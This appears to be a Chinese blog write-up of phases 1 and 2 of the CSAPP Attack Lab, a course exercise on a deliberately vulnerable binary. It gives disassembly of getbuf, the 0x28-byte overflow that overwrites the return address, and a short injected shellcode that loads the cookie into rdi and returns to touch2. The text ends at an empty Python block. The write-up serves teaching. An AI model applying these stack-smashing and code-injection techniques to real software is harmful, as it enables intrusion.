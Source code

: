 ```yaml
---
title: CSAPP：AttackLab
date: 2023/12/12 18:19:20
---
```

## Phase 1
```x86asm
.text:00000000004017A8 ; unsigned int __cdecl getbuf()
.text:00000000004017A8                 public getbuf
.text:00000000004017A8 getbuf          proc near               ; CODE XREF: test+9↓p
.text:00000000004017A8
.text:00000000004017A8 buf             = byte ptr -28h
.text:00000000004017A8
.text:00000000004017A8 ; __unwind {
.text:00000000004017A8                 sub     rsp, 28h
.text:00000000004017AC                 mov     rdi, rsp        ; dest
.text:00000000004017AF                 call    Gets
.text:00000000004017B4                 mov     eax, 1
.text:00000000004017B9                 add     rsp, 28h
.text:00000000004017BD                 retn
.text:00000000004017BD ; } // starts at 4017A8
.text:00000000004017BD getbuf          endp
```
`getbuf`在栈上分配了`0x28`字节的空间，作为参数传递给了`Gets`，在`Gets`中，循环`getchar`，直到获取到了`-1(EOF)`或者`10(\n)`则停止。  
根据栈的分配规则，可以推断返回地址就在`0x28+0x8`的位置，只需要利用缓冲区溢出写入目标函数`touch1`的地址即可使程序放回到`touch1`。  
因为64位系统上指针大小为8个字节，所以8字节一行更方便阅读。  
前0x28字节输入填充任意字符，再写入`touch1`的地址，即可构造出答案。
## Phase 2
```c
void __fastcall __noreturn touch2(unsigned int val)
{
  vlevel = 2;
  if ( val == cookie )
  {
    __printf_chk(1LL, "Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  }
  else
  {
    __printf_chk(1LL, "Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```
反编译`touch2`的代码，`touch2`对传入的参数（`edx`）进行了校验。简单地对栈返回地址直接修改是无法达成修改寄存器的目的的。  
简单回忆一下，栈是内存中的一段固定空间，初始状态栈指针指向栈最大的地址，从栈上分配空间需要对栈指针进行减操作，释放空间需要对栈指针进行加操作。既然程序运行是通过`mmap`文件到内存中进行执行，那么我们可以通过在栈中直接写入二进制代码，使返回到栈上执行我们注入的代码，这样就可以达成修改寄存器的目的了。  
使用`mov`修改`rdi`，再将`touch2`的地址入栈，返回，即可跳转到`touch2`
```x86asm
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```
#### 编译shellcode
关于如何获取汇编，比较方便的方法是直接编写s文件，让`gcc`编译。  
这里介绍一个在逆向工程里面经常用到的工具，`keystone`  
`keystone`有各种语言的binding，这里使用python
```bash
pip install keystone-engine
```
```python
```